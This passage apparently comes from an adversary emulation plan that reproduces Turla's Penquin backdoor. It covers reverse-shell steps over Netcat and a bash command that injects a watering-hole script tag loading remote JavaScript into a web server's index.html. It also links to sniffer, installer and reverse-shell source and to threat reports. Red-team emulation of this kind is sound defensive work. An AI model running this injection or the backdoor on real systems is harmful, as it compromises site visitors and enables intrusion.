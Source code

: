 * Wait a few seconds and then check the Netcat tab (`Penquin NC`). The Netcat prompt should report a successful connection.

* In the terminal where the reverse shell has connected to the Netcat listener, paste the following command to add the
 watering hole redirection to index.html:

```bash
echo "<script>if (document.getElementById('xyz')) {{}} else {{ var gam = document.createElement('script'); gam.type = 'text/javascript'; gam.async = true; gam.src = ('http://anto-int.com/counter.js'); var sm = document.getElementsByTagName('script')[0]; sm.parentNode.insertBefore(gam, sm); var fl = document.createElement('span'); fl.id = 'xyz'; var d =  document.getElementsByTagName('div')[0]; d.parentNode.insertBefore(fl, d);}}</script>" >> /var/www/html/index.html
```

* Wait 1 minute and then send the following command to close the reverse shell

```bash
exit
```

### :moyai: Source Code

* [Penquin](../../Resources/Penquin/) ([Network Sniffer](../../Resources/Penquin/sniff.c) & [Penquin Installer](../../Resources/Penquin/main.c))
  * [Writes the sniffer (Penquin) to disk](../../Resources/Penquin/main.c#L220)
  * [Moves Penquin to /usr/bin](../../Resources/Penquin/main.c#L121)
  * [Creates a service file](../../Resources/Penquin/main.c#L173)
  * [Stops cron service](../../Resources/Penquin/main.c#L143)
  * [Executes Penquin as cron](../../Resources/Penquin/main.c#L198)
  * [Real cron starts as child process](../../Resources/Penquin/sniff.c#L198)
  * [Installs packet sniffer on eth0](../../Resources/Penquin/sniff.c#L482)
  * [Magic packet filter criteria](../../Resources/Penquin/sniff.c#L437-L442)
  * [Execute reverse shell](../../Resources/Penquin/sniff.c#L405)
  * [sendPacket.py](../../Resources/Penquin/sendPacket.py)

### :microscope: Cited Intelligence

* <https://www.leonardo.com/documents/20142/10868623/Malware+Technical+Insight+_Turla+%E2%80%9CPenquin_x64%E2%80%9D.pdf>
* <https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/07180251/Penquins_Moonlit_Maze_PDF_eng.pdf>
* <https://securelist.com/the-penquin-turla-2/67962/>
* <https://www.youtube.com/watch?v=JXsjRUxx47E&t=647s>
* <https://lab52.io/blog/looking-for-penquins-in-the-wild/>
* <https://www.welivesecurity.com/2020/03/12/tracking-turla-new-backdoor-armenian-watering-holes/>
* <https://www.welivesecurity.com/wp-content/uploads/2018/01/ESET_Turla_Mosquito.pdf>
* <https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/08080105/KL_Epic_Turla_Technical_Appendix_20140806.pdf>
